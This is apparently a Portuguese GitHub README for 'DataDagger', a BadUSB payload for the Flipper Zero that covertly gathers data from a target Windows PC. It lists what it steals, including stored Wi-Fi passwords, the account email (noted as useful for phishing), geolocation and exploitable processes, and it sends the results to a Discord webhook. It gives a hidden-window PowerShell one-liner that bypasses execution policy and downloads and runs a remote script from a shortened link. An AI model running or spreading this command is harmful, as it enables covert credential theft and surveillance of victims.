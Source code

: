![Logo](https://raw.githubusercontent.com/ClankPT/Flipper-Zero-BadUSB/main/Imagem/mini%20mini%20TH.png)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Descrição">Descrição</a></li>
    <li><a href="#Vamos Começar">Vamos Começar</a></li>
    <li><a href="#Compatibilidade">Compatibilidade</a></li>
    <li><a href="#Histórico de Versões">Histórico de Versões</a></li>
    <li><a href="#Contacto">Contacto</a></li>
    <li><a href="#Conhecimentos">Conhecimentos</a></li>
  </ol>
</details>

# DataDagger

Script de reconhecimento avançado a um computador alvo, capaz de mostrar muita informação sensível

## Descrição

Este programa foi desenvolvido para coletar o máximo de dados possível para fins de reconhecimento. Isso inclui

* Hosts versão do PowerShell (para saber quais comandos podem ser executados)
* Nome associado à conta da Microsoft
* Estejam eles no grupo Admin ou não
* O e-mail associado à conta da Microsoft (para possibilidades de phishing)
* A geolocalização (saber localização aproximada)
* Redes Wifi próximas (possível movimento lateral)
* Informações de rede (endereço IP local e público; endereço MAC; RDP ativado?)
* Perfis WLAN (lista de SSIDs e passwords armazenadas no PC)
* Interfaces de rede (com o que elas estão ligadas)
* Informações do sistema (fabricante, modelo, número de série, sistema operacional, CPU, RAM, BIOS da placa-mãe)
* Utilizadores locais (contas no sistema com nome de usuário, nome associado à conta microsoft e SID)
* Informações sobre os discos rígidos 
* Dispositivos COM e seriais ( dispositivo ligados ou emparelhados com o PC)
* Conexões TCP ativas (varredura de porta)
* Processos, serviços, software e drivers (o que está a ser executado no computador e  que podemos explorar? processos ativos/parados)
* Informações sobre as especifições sobre o PC
* Lista de programas do PC
* Tree (exploração de toda a tree do PC)
## Vamos Começar

### Compatibilidade

* Discord
* Windows 10,11

<p align="right">(<a href="#top">voltar</a>)</p>

### Execução
* Conectar ao dispositivo
* Esperar alguns segundos e verificar o Discord

`$dc` é a variável que guarda no webhook do discord 
```
powershell -w h -NoP -Ep Bypass $dc='';irm bit.ly/ClankPT | iex
```

<p align="right">(<a href="#top">voltar</a>)</p>

## Contribuição

* Clank

* Luís Lopes

* Tiago Casal

<p align="right">(<a href="#top">voltar</a>)</p>

## Histórico de Versões

* 0.1
    * Ainda em desenvolvimento ...

<p align="right">(<a href="#top">voltar</a>)</p>

<!-- CONTACT -->
## Contacto

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://discord.gg/4BURDrRMBZ">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
  </tr>
</table>
</div>



<p align="right">(<a href="#top">voltar</a>)</p>
